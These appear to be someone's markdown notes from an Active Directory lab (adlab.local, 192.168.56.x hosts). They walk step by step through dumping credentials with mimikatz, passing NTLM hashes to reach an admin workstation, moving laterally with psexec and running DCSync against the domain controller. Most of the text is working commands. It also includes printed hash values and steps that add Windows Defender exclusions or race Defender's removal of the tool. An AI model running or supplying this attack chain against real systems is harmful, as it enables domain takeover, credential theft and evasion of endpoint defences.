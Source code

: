 ## mimikatz
- add exclusion for C:\ to windows defender
- set log file
    - `log C:\Users\normaluser\Downloads\mimi_client.txt`
- always need to run this first in order to run any sekurlsa command
    - `privilege::debug`
- get passwords
    - `sekurlsa::logonpasswords`
- look for `User Name         : Administrator`
    - Domain            : WIN10CLIENT
    - NTLM     : af992895db0f2c42a1bc96546e92804a
- pass the hash
    - the `/run:cmd.exe` part seems unneeded 
```
sekurlsa::pth /user:Administrator /domain:win10adm /ntlm:af992895db0f2c42a1bc96546e92804a /run:cmd.exe
```
- dir \\192.168.56.30\C$

## win10adm
- get into win10adm with psexec
    - requires mimikatz terminal
    - `psexec -r teto /accepteula \\192.168.56.30 cmd.exe`
- get/set exclusion path for admin
    - `powershell -c "Get-MpPreference | Select-Object -ExpandProperty ExclusionPath"`
    - `powershell -c "Add-MpPreference -ExclusionPath '%USERPROFILE%'"`
- this did not seem to help
    - `powershell -c "Add-MpPreference -ExclusionPath X:\"`
- get list of administrative shares
    - `net share`
- map default share and move to it
    - `net use x: \\192.168.56.30\C$`
    - `x:`
- seem to have more time if I copy it into a subfolder
    - `mkdir mimi`
    - `cd X:\Users\Administrator\mimi`
- copy from w10client to w10adm
    - `copy C:\Users\normaluser\Downloads\mimikatz\x64\* X:\Users\Administrator\mimi`
- 2nd mimikatz window:
    - `cd %userprofile%\mimikatz`
- open the file before windefender removes it
    - `mimikatz`
- get hash
    - `privilege::debug`
    - `sekurlsa::logonpasswords`
    - `log X:\Users\Administrator\mimikatz\mimi_adm.txt`
- had to log into win10_adm to get hashes to show up
    - domad showed up twice
    - NTLM     : cff48581d56085119bddffacfae51aeb

## win10_ad
- pass the hash
- `sekurlsa::pth /user:domad /domain:adlab.local /ntlm:cff48581d56085119bddffacfae51aeb`
- verify we have access to dc
- `dir \\192.168.56.10\C$`
- dont need to use psexec, just go deeper into mimikatz again
    - `privilege::debug`
    - `lsadump::dcsync /domain:adlab.local /all /csv`
- check which users are domain admins
    - `net group "domain admins" /domain`
